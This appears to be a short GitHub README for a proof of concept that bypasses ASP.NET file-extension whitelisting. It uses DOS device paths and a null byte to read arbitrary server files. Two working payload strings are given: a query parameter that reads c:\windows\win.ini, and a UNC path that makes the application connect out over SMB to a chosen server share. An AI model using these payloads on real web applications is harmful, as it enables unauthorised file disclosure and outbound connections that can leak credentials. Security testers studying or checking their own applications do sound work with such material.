


# AspFileRead POC

A poc to bypass whitelisting of file extensions in asp.net.

By using DOS device paths https://learn.microsoft.com/en-us/dotnet/standard/io/file-path-formats#dos-device-paths, it is possible to read arbitrary files on the local file system.

## Example payloads

- `?file=\\?\c:\windows\win.ini%00`	# will read any file and due to the DOS device path enable the null character termination and bypass the `.md` file extension limitation.

## Making outbound SMB  connections 

It is also possible to trigger the web application to make outgoing smb-calls vy using payloads such as:

- `\\.\UNC\server\share\file`	# will read `file.md` from the server share

